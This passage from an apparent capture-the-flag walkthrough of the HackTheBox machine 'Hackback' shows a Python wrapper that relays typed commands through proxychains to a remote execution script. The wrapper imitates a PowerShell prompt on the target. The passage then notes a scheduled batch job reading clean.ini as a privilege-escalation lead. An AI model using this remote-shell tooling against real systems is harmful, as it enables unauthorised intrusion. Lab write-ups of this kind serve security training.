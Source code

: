 In conjuntion with `cmd.rb`, I wrote another Python script (I'm not too familiar with Ruby) to simulate a PowerShell session.

<div class="filename"><span>shell.py</span></div>

```python
from cmd import Cmd
import os

class Shell(Cmd):

  def do_quit(self, line):
    """Quits the shell"""
    print "Quiting"
    raise SystemExit

  def default(self, line):
    os.system("proxychains ruby cmd.rb " + "'" + line + "'" + " | sed '1d' ")

if __name__ == "__main__":

  s = Shell()
  s.prompt = 'PS> '
  s.cmdloop("Windows PowerShell\nCopyright (C) Microsoft Corporation. All rights reserved.\n")
```

<a class="image-popup">
![ff2613c9.png](/assets/images/posts/hackback-htb-walkthrough/ff2613c9.png)
</a>

During enumeration of `simple`'s account, I notice a phenomenon going on at `c:\util\scripts`. The presence of `clean.ini` suggests that `hacker` reads and parses this file when `dellog.bat` is executed every five minutes (I also notice `hacker` logs in every 5 minutes).

<a class="image-popup">